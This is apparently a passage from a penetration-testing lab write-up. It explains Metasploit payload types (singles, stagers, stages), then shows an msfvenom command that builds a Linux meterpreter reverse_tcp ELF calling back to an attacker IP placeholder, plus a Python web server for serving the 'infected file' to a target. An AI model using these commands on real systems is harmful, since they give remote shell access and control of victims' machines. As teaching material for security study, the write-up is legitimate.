 #### Types of Payloads in Metasploit

1. **Singles** – Self-contained, executes a single action (e.g., add a user).
2. **Stagers** – Small, initial payloads that establish a connection and load larger payloads (e.g., `reverse_tcp`).
3. **Stages** – Larger payloads delivered by stagers (e.g., `meterpreter`).

In this example, it will be done the following:
- The attacker sends a small **stager** to the target (`reverse_tcp`).
- The stager connects back to the attacker's machine.
- It then downloads and executes the **stage** (`meterpreter`), which is the full payload.

### 2.3.1. Generate the payload

Generation of payload `reverse_tcp` with `msfvenon`:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<AttackerIp> LPORT=<PortSelected> -f elf -o hola
```

![Alt text](images/Pasted%20image%2020250215104019.png)

`hola` will be generated with the payload `linux/x86/meterpreter/reverse_tcp`, and the configuration of the ip and port to send the reverse shell. The file is created in the current directory. 
![Alt text](images/Pasted%20image%2020250215104057.png)

We need now a way to send the file to the target machine.

### 2.3.2. Upload, download and execute the payload file
Create a server in the attackers machine so that the target machine can download the infected file from my current directory:
```
python -m http.server 80
```

![Alt text](images/Pasted%20image%2020250214215337.png)
